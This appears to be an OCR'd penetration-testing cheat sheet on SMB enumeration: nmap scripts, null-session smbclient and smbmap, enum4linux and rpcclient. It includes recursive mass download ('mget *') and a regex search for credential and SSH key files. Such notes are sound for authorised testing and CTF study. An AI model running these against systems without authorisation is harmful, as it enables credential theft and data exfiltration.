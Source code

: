 2) SMB NSE enumeration
```bash
nmap -Pn -n -p445 --script "smb-os-discovery,smb-enum-shares,smb-enum-users,smb2-security-mode" $RHOST
```

3) List shares (null/guest first)
```bash
# List shares with null session
smbclient -L "//$RHOST" -N

# If SMB1 needed (older Samba)
smbclient -L "//$RHOST" -N -m SMB1
```

4) Connect and loot with smbclient
```bash
# Connect anonymously to a share (replace SHARE)
smbclient "//$RHOST/SHARE" -N

# Inside smbclient prompt:
# smb: \> commands to mass-download
recurse ON
prompt OFF
ls
mget *
exit
```

5) Use smbmap to map permissions and search
```bash
# Null session enumeration of shares and perms
smbmap -H $RHOST -u '' -p ''

# Recursive list all shares (if allowed)
smbmap -H $RHOST -u '' -p '' -r

# Search for juicy files across a share
# Example: search for creds/keys/flags/configs
smbmap -H $RHOST -u '' -p '' -R SHARE -A '(flag|pass|user|cred|key|id_rsa|.conf)$' -q
```

6) One-stop enumeration
```bash
# Classic
enum4linux -a $RHOST

# Or the newer Python version
enum4linux-ng -A $RHOST
```

7) rpcclient null session (user/group enum)
```bash
# One-liners
rpcclient -U "" -N $RHOST -c "lsaquery; enumdomusers; enumdomgroups"

# Interactive
rpcclient -U "" -N $RHOST
# rpcclient> lsaquery
# rpcclient> enumdomusers
# rpcclient> enumdomgroups
# rpcclient> querydispinfo 0
# rpcclient> lookupnames username
# rpcclient> quit
```
